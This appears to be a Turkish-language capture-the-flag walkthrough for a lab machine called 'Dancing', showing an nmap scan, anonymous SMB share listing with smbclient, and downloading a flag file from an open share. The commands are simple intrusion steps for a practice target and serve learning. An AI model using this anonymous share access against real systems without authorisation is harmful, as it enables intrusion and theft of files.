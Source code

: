# Dancing

!!! info "Target IP Address"

    10.129.20.116

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.20.116 -sV
```

```text title="Output" hl_lines="8"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:02 +03
Nmap scan report for 10.129.20.116
Host is up (0.31s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.85 seconds
```

Aşağıdaki komut ile mevcut Share klasörlerini listele:

```bash
smbclient -N -L 10.129.20.116
```

```text title="Output" hl_lines="6"
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.20.116 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Bulunan `WorkShares` klasörüne SMB bağlantısı gerçekleştir:

```bash
smbclient -N //10.129.20.116/WorkShares
```

Aşağıdaki komut ile bayrağı yerel makineye indir:

```text
get James.P\flag.txt
```

Aşağıdaki komut ile bayrağı ele geçir:

```bash
cat flag.txt
```
